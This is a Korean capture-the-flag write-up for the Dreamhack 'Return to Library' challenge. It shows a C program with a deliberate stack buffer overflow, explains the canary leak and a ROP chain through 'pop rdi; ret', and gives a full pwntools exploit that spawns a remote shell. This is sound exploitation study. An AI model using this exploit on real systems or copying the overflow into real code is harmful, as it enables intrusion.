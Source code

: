 Return to Library 라이트업
====================

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

코드를 분석해보면 

**1. "/bin/sh"를 바이너리에 추가**

* rtl.c 코드의 8번째 줄은 바이너리에 /bin/sh 문자열을 추가하기 위해 작성된 코드이다.
* ASLR이 적용되더라도 PIE(Position-Independent Executable)가 적용되지 않으면
  코드 세그먼트와 데이터 세그먼트의 주소는 고정된다.
   /bin/sh의 주소도 고정되어 있다.  

**2. PLT에 system 함수 추가**

* 17번째 줄은 PLT에 system 함수를 추가하기 위해 작성된 코드이다.
* system 함수는 라이브러리 함수이므로 PLT와 GOT는 라이브러리 함수 참조를 위해 사용되는 테이블들이다.
* 처음에는 system 함수의 주소가 resolve되지 않았을 때 함수의 주소를 구하고 실행하는 코드가 작성된다.
* **Return to PLT 공격**의 원리: ASLR이 걸려있더라도 PIE가 적용되어 있지 않다면 PLT의 주소는 고정되어 있다.
  따라서 PLT에 어떤 라이브러리 함수가 등록되어 있다면
   공격자는 해당 함수의 PLT 엔트리로 실행 흐름을 옮김으로써 해당 함수를 실행할 수 있다.
  무작위 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법을 통해 라이브러리 함수를 실행할 수 있다.   

**3. 버퍼 오버플로우**

`buf` 의 크기는 0x30 이지만 read 함수로 0x100 만큼을 입력받기 때문에 버퍼 오버플로우가 발생한다.

<img width="911" height="352" alt="image" src="https://github.com/user-attachments/assets/c8bc2486-92d9-4fe0-8a75-b90768e2ccf3" />

<img width="778" height="182" alt="image" src="https://github.com/user-attachments/assets/31d270f3-4c12-411c-9411-f28ee7ab0a96" />


disass main으로 확인해보면 buf 의 크기는 0x40     
하지만 이건 카나리가 포함된 크기이기 때문에 실제 buf 의 크기는 카나리를 제외한 0x38 이다. 


## 익스플로잇


* **카나리 우회:** 첫 번째 입력에서 카나리를 우회한다.
* **`rdi` 값을 "/bin/sh"의 주소로 설정 및 셸 획득:**
    * 카나리를 우회한 후, 두 번째 입력으로 반환 주소를 덮을 수 있다.
    * NX으로 인해 `buf`에 셸코드를 주입하고 직접 실행할 수는 없다.
    * **공격에 필요한 정보:**
        * "/bin/sh" 문자열의 주소 
        * `system` 함수의 주소
    * **목표:** `/bin/sh`를 호출하여 셸을 획득하기
      x86-64 호출 규약에 따르면 `system("/bin/sh")`은 `rdi` 레지스터에
      `"/bin/sh"` 주소가 있는 상태에서 `system` 함수를 호출하는 것과 같다.
    * **Return-Oriented Programming (ROP) 활용:** `/bin/sh`의 주소를 알고
      `system` 함수를 호출할 수 있으므로
       `/bin/sh`의 주소를 `rdi` 값으로 설정할 수 있다면
       `system("/bin/sh")`을 실행할 수 있다. 이를 위해 **리턴 가젯**을 활용해야 한다.


### 리턴 가젯

<img width="687" height="87" alt="image" src="https://github.com/user-attachments/assets/ef210971-58f3-4e5f-a964-d35db3c53de6" />

return gadget이란 ret 명령어로 끝나는 어셈블리 코드 조각을 의미한다. ROPgadget 명령어를 사용해서 위와 같이 가젯을 구할 수 있다.

이 문제에서는 rdi의 값을 `/bin/sh`의 주소로 설정하고 system 함수를 호출해야 한다. 

```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

리턴 가젯을 사용해서 반환 주소와 이후의 버퍼를 이렇게 덮으면 pop rdi로 rdi의 주소를 `/bin/sh` 의 주소로 설정하고 이어지는 ret으로 system 함수를 호출할 수 있다. 




### 다른 주소 확인

<img width="772" height="73" alt="image" src="https://github.com/user-attachments/assets/bc315f97-cf5e-401c-aa8c-11d5173b2915" />

system 함수 주소 확인

<img width="1082" height="260" alt="image" src="https://github.com/user-attachments/assets/fc33e7fd-a9bd-438e-a344-98df167db1f0" />

ret 확인


### 익스플로잇 코드


```python
from pwn import *

context(arch='amd64', os='linux')

p = remote("host1.dreamhack.games", 21518)

p.recvline('Buf: ')
dummy = b'A' * 0x39
print(dummy)
p.send(dummy)
p.recvuntil(dummy)
canary_leak = b'\x00' + p.recvn(7)

canary = u64(canary_leak)
print('canray : {}'.format(hex(canary)))

ret = 0x400596
pop_rdi = 0x400853
binsh = 0x400874
system = 0x4005d0

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.recvuntil('Buf: ')
p.send(payload)

p.interactive()
```




### 실행 결과


<img width="598" height="152" alt="image" src="https://github.com/user-attachments/assets/28597c4f-37d3-4379-a3ce-3edbf5dd6fae" />


